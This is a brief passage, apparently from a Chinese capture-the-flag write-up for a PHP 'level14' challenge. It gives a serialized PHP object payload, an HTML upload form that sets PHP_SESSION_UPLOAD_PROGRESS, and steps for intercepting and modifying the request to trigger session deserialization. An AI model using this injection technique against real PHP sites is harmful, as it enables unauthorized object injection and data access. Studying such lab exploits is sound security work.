 
`|O:4:\"test\":1:{s:4:\"name\";s:4:\"flag\";}`

test.html

<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<form id="upload-form" action="http://************/level14/index.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="test"/>
        上传文件…
        <input name="file1" type="file" />
        <input type="submit" value="上传"/>
    </form>


通过test.html“上传”任意文件，然后抓包，利用payload改包，最后发包，OK

![image-20220311065409439](./pic/image-20220311065409439.png)







